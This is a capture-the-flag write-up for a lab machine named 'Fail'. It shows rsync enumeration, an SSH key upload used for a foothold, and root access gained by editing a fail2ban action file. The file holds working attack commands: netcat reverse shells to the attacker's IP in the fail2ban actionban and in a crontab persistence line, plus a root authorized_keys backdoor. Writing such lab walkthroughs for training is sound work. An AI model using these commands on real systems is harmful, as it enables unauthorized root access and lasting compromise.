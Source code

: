 # Fail
### Enumeration
Ports 22 and 873 (rsync) are open.

##### 873
I've used `>` to denote my input.
```shell-session
$ nc -nv 192.168.55.126 873
(UNKNOWN) [192.168.55.126] 873 (rsync) open
@RSYNCD: 31.0
> @RSYNCD: 31.0
> #list 
fox             fox home
@RSYNCD: EXIT

$ rsync -av --list-only rsync://192.168.55.126/fox
receiving incremental file list
drwxr-xr-x          4,096 2021/01/21 09:21:59 .
lrwxrwxrwx              9 2020/12/03 15:22:42 .bash_history -> /dev/null
-rw-r--r--            220 2019/04/18 00:12:36 .bash_logout
-rw-r--r--          3,526 2019/04/18 00:12:36 .bashrc
-rw-r--r--            807 2019/04/18 00:12:36 .profile

sent 20 bytes  received 136 bytes  312.00 bytes/sec
total size is 4,562  speedup is 29.24
```

### Foothold

It looks like rsync is to the `fox` user's home directory. We can try uploading an `.ssh` directory to get SSH access:

```shell-session
$ ssh-keygen
...

$ rsync -av ~/.ssh/ rsync://192.168.55.126/fox/.ssh
```

We get access as the `fox` user.

### Privilege Escalation

We notice that we're a member of the `fail2ban` group. If we look in `/etc/fail2ban` we see a file called `README.fox`, which says:

```
Fail2ban restarts each 1 minute, change ACTION file following Security Policies. ROOT!
```

We could also have figured this out using `pspy`, which would have shown `fail2ban` being restarted every minute.

We see the following in `/etc/fail2ban/jail.conf`:

```ini
# "bantime" is the number of seconds that a host is banned.
bantime  = 1m

# A host is banned if it has generated "maxretry" during the last "findtime"
# seconds.
findtime  = 10m

# "maxretry" is the number of failures before a host get banned.
maxretry = 2

# ...

banaction = iptables-multiport
```

So we edit `/etc/fail2ban/action.d/iptables-multiport.conf` with the following:

```ini
actionban = nc -e /bin/bash 192.168.55.200 9001
```

Then we start a netcat listener locally and trigger fail2ban by trying to connect to SSH as a random user with a random password (we have to make 2 password attempts since `maxretry = 2`). Now we have a root shell!

### Persistence
The shell dies after a minute since that's the ban duration and the fail2ban process will be killed after a minute, destroying the reverse shell.

I achieved persistence by quickly creating `/root/.ssh` and writing my public key to `/root/.ssh/authorized_keys`, allowing me to SSH in as root.

We could also have changed the fail2ban configuration to write to `/etc/crontab` as below:

```ini
actionban = echo "*  *  *  *  * root nc 192.168.55.200 9001 -e /usr/bin/bash" >> /etc/crontab
```

This would trigger a new reverse shell every minute. `cron` won't kill the process, so the reverse shell won't die!